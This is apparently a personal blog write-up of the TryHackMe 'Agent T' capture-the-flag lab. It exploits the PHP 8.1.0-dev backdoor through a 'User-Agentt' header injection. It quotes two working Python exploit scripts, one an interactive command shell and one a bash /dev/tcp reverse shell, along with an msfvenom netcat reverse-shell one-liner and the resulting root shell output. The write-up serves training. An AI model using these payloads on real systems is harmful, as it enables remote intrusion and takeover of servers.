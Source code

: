 ```yaml
---
categories:
- Tryhackme
- Freetime
- Fundamentals
layout: post
image:
    path: python.png
media_subpath: /assets/posts/2025-03-28-Agent-T-Got-10-Minutes
tags:
- CTF
title: TryHackMe - Got 10 minutes? - Agent T
---
```


## Introduction

Got an email about this challenge. Message contained following: "Got 10 minutes? Try to find out what is wrong with the server" 

## Solution

![](images/2025-03-28-18-58.png)

Let's start my ParrotOS to dig deeper of this.

````
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 19:10 EET
Nmap scan report for thm.device
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
````

![](images/2025-03-28-19-59.png)

Really interesting, that there is actually a dashboard to this platform with authenticated "Admin" user. While clicking each link in the site, eventually I ended up to similar site but different user logged in. 

![](images/2025-03-28-19-21.png)

At first I thought could there be a session token in the storage but there was not.
Any of the links in the website did not respond into any actions, so I did another Nmap scan with parameter "-A" to entirely scan the host. 
````
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
````
The version is now known, so let´s see if there is any vulnerabilities related to that.
Matter of fact, there was a RCE Backdoor for this specific version of PHP. (https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

It´s about changing the user-agent of the request into "User-agentt" and using payload "zerodiumsysytem("*command*")", this will be executed in the backend server.
Here is a python script from this blog to make the exploitation process persistent, this script belongs to author (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) - Flast101 :

````
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
````

As expected, we ended up getting a shell using this exploit.

![](images/2025-03-28-19-14.png)

I wanted a better shell and started a netcat listener on Parrot's end but the simple reverse shell commands did not work on this host. MSFVenom could solve this problem.
````
┌─[tigris@parrot]─[~/Desktop]
└──╼ $msfvenom -p cmd/unix/reverse_netcat LHOST=10.x.x.x LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 99 bytes
mkfifo /tmp/tnbsawx; nc 10.x.x.x 4444 0</tmp/tnbsawx | /bin/sh >/tmp/tnbsawx 2>&1; rm /tmp/tnbsawx
````
This did not work either. Then i ended up finding this script, which contained a bash-command for the shell. I tried manually exploit the same command but it did not work and it might be that the earlier backdoor-script will format the request incorrectly. This was also made by flash101 - (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) - (https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

````
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
````

We are in.

````
┌─[✗]─[tigris@parrot]─[~/Desktop]
└──╼ $netcat -lvnp 4444
listening on [any] 4444 ...
connect to [10.x.x.x] from (UNKNOWN) [10.x.x.x] 35484
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3f8655e43931:/var/www/html#
root@3f8655e43931:/# ls

ls
bin
boot
dev
etc
flag.txt
home

root@3f8655e43931:/# cat flag.txt
flag{412xxxxxxxxxxxxxxxxxxxxxxxxx}
````


